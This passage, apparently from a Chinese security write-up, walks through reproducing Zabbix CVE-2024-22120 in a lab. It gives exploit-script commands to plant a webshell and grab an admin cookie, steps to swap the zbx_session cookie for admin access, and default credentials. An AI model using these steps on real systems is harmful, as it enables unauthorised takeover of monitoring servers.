 【CVE-2024-22120-Webshell（在多数情况下无法使用）】  
  
如果你已经拥有管理员权限用户的session ID，请尝试：  
  
python CVE-2024-22120-Webshell.py --ip
192.168.198.136 --aid fe647173d7769d55a43f161a68b256e0 --hostid 10084 --file
shell.php  
  
否则，如果只有普通用户session ID，请使用：  
  
python CVE-2024-22120-Webshell.py --ip
192.168.198.136 --sid f026d1c7a3c36537cfe78fed35c7456a --hostid 10084 --shell
shell.php  
  
但是，由于执行命令的用户通常是zabbix用户，大多数情况下无法通过echo直接写入webshell，因为这受限于文件权限和Zabbix后台的执行上下文限制，使得直接创建或修改网页文件变得困难。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEkGwiaH6wicq47AmTL4icuWQwH8MO7eOzCAbe8Tg9G2oWx5P0GkKkRy8lo4l42UlYgsbiaExRkWLOpZw/640?wx_fmt=png&from=appmsg "")  
### 1.5.5获取后台管理员权限  
  
1.执行CVE-2024-22120-LoginAsAdmin.py程序获取cookie  
  
python CVE-2024-22120-LoginAsAdmin.py --ip
192.168.19.142 --sid 58a1d35e74e90e1ca493d95e4092553c --hostid 10084  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEkGwiaH6wicq47AmTL4icuWQw6HMVg1fHmRyLMOfx25a2ibldahibVVWF4pJWPKacqslEeEqjaQE2hicNA/640?wx_fmt=png&from=appmsg "")  
  
  
2.替换zbx_session  
  
使用ctrl+i打开chrome浏览器，找到“Application”-“Cookies”，找到目标网站，将其中的zbx_session替换为工具获取的。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEkGwiaH6wicq47AmTL4icuWQwLaxPjeG0kmPWFl2iazfIjjXxiagdgP7yrACYhMqCE4OiaSXllkcjpO3Eg/640?wx_fmt=png&from=appmsg "")  
  
3.  
直接获取管理员权限  
  
重新打开一个页面，刷新即可获取管理员权限。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEkGwiaH6wicq47AmTL4icuWQwZoZewdFic7qhqdpxiaP2dd9yugsQjvnZUibsj6YzG8Iasz35DiaTq75pTQ/640?wx_fmt=png&from=appmsg "")  
### 1.5.6注意事项  
  
1.需要安装pwn模块  
  
pip install pwn  
  
2.默认登录账号及密码  
  
Admin  
zabbix   
admin zabbix  
  
3.安装有zabbix环境的虚拟机  
  
https://cdn.zabbix.com/zabbix/appliances/stable/6.0/6.0.20/zabbix_appliance-6.0.20-vmx.tar.gz  
  
（1）登录用户账号及密码root  
/  
zabbix  
  